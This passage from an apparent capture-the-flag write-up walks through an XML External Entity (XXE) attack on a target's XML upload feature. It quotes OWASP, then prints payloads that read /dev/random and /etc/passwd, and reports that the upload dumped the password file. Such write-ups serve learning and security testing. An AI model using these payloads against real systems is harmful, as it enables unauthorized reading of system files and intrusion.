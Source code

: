 .. and we can!

Now let's figure out how to upload a payload.

### XML EXTERNAL ENTITY

Came across a vulnerability in XML called `XXE` (XML External Entity) that
looks like a promising exploit to try on the XML processor on our target
system..

```
Attackers can exploit vulnerable XML processors if they can upload XML or
include hostile content in an XML document, exploiting vulnerable code,
dependencies or integrations.

https://www.owasp.org/index.php/Top_10-2017_A4-XML_External_Entities_(XXE)
```

Found an example of `XXE` that allows us to read files on the target
system..

```
<?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [  
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "file:///dev/random" >]><foo>&xxe;</foo>
```

Tailoring our `hello world` XML from before to include this attack, we get..

```
$ cat hello3.xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<xml>
  <msg>hello world</msg>
  <Author>hello author &xxe;</Author>
  <Subject>hello subject</Subject>
  <Content>hello content</Content>
</xml>
```

Uploading it gives us a dump of `/etc/passwd` on the target system!
